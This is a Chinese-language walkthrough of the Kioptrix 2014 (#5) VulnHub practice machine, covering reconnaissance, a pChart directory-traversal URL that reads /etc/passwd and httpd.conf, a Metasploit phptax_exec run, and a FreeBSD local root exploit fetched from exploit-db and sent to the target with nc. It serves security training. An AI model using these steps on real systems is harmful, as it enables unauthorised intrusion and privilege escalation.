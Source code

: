 # Kioptrix5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-2014-5,62/

**Description**

As usual, this vulnerable machine is targeted at the beginner. It's not meant for the seasoned pentester or security geek that's been at this sort of stuff for 10 years. Everyone needs a place to start and all I want to do is help in that regard.

Also, before powering on the VM I suggest you remove the network card and re-add it. For some oddball reason it doesn't get its IP (well I do kinda know why but don't want to give any details away). So just add the VM to your virtualization software, remove and then add a network card. Set it to bridge mode and you should be good to go.

This was created using ESX 5.0 and tested on Fusion, but shouldn't be much of a problem on other platforms.

Kioptrix VM 2014 download 825Megs

MD5 (kiop2014.tar.bz2) = 1f802308f7f9f52a7a0d973fbda22c0a

SHA1 (kiop2014.tar.bz2) = 116eb311b91b28731855575a9157043666230432

Waist line 32"

p.s.: Don't forget to read my disclaimer...

Works out of the box with VMware workstation 10, player 6, fusion 6 (Can edit the vmx file to force a downgrade for an older version - see 'kiop2014_fix.zip'). Has been known to work with Virtualbox 4.3 or higher... First thing: try setting it to a x64 machine. Then check: http://download.vulnhub.com/kioptrix/kiop2014_fix.zip.

**知识点**
- LFI
- 自定义 User-agent
- phptax 漏洞利用
- freebsd 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.147` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.147
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/2.png)

一个 SSH，2个 web,从 web 先入手

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/3.png)

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/4.png)

看来都需要爆破目录了
```
dirb http://192.168.141.147
dirb http://192.168.141.147:8080
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/5.png)

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/6.png)

啥都没有,再看看 index.html

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/7.png)

有个 pChart2.1.3,访问看看

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/8.png)

---

# 中期-漏洞利用

有点意思,找找它的漏洞
```
searchsploit -w pChart
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/9.png)

访问 https://www.exploit-db.com/exploits/31173,发现有个目录遍历可以利用下

`http://192.168.141.147/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/10.png)

尝试使用这个漏洞挖掘更多的信息

爆了半天，没爆出 httpd 配置文件，google 了一下发现别人爆出来是 `http://192.168.141.147/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf`

想不出来这个 apache22 是怎么爆出来的，难不成是看 apache 版本号?

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/11.png)

看了下 httpd.conf 的内容,发现 8080 只允许 user-agent 为 Mozilla/4.0 Mozilla4_browser 才能访问

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/12.png)

firefox 可以自定义 user-agent

访问 about:config,搜索 general.useragent.override

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/13.png)

输入 `Mozilla/4.0 Mozilla4_browser`,再访问 192.168.141.147:8080

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/14.png)

ok,有东西了,点进去看看

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/15.png)

看起来这东西有一定年头了,搜了下这是个叫 phptax 的纳税工具,MSF 有个可利用的模块
```
msfconsole
use exploit/multi/http/phptax_exec
options
set RHOSTS 192.168.141.147
set RPORT 8080
run
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/16.png)

下面尝试提权

---

# 后期-漏洞利用

查看一些基本信息
```bash
/bin/sh -i
uname -a
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/17.png)

```
searchsploit -w freebsd 9.0
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/18.png)

kali 访问 https://www.exploit-db.com/download/26368,下载 poc

kali 下载完启 HTTP
```bash
wget https://www.exploit-db.com/download/26368
mv 26368 poc.c
nc -lvp 1234 < poc.c
```

靶机下载 kali 上的 poc
```bash
cd /tmp
nc -nv 192.168.141.134 1234 > poc.c
gcc poc.c
ls
./a.out
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix5/19.png)

提权成功,感谢 Kioptrix Team 制作的系列靶机
